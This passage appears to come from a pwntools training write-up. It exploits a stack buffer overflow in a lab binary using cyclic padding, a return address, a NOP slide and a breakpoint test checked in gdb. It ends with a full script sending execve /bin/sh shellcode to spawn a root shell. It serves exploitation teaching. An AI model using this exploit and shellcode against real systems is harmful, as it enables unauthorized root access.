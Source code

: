 By assigning a large amount of `NOPS` we can make a slide down which our shellcode is located.

Before using the shellcode, we will use `0xcc` which is the breakpoint instruction

```python
#!/usr/bin/env python

from pwn import *

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510 + 200)

nop_slide = "\x90" * 1000

shellcode = "\xcc"

payload = padding + eip + nop_slide + shellcode

print(payload)
```

We can now store its output in a file and run it with `gdb` to check if it worked.

```
Starting program: /home/buzz/IntroToPwntools/IntroToPwntools/shellcraft/intro2pwnFinal < output
Hello There. Do you have an input for me?

Program received signal SIGTRAP, Trace/breakpoint trap.
0xffffd8f9 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────
 EAX  0xffffd4c0 ◂— 0x61616161 ('aaaa')
 EBX  0x61616172 ('raaa')
 ECX  0xf7fc15c0 (_IO_2_1_stdin_) ◂— mov    byte ptr [eax], ah /* 0xfbad2088 */
 EDX  0xf7fc289c (_IO_stdfile_0_lock) ◂— 0
 EDI  0x0
 ESI  0xf7fc1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
 EBP  0x61616173 ('saaa')
 ESP  0xffffd510 ◂— 0x90909090
 EIP  0xffffd8f9 ◂— 0x2e2a3a00
```

And this confirms we have control over the `ESP`.

Now we can exploit this program and add our shellcode to spawn a root shell.

```python
#!/usr/bin/env python

from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510 + 200)

nop_slide = "\x90" * 1000

shellcode =  "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

proc.send(payload)
```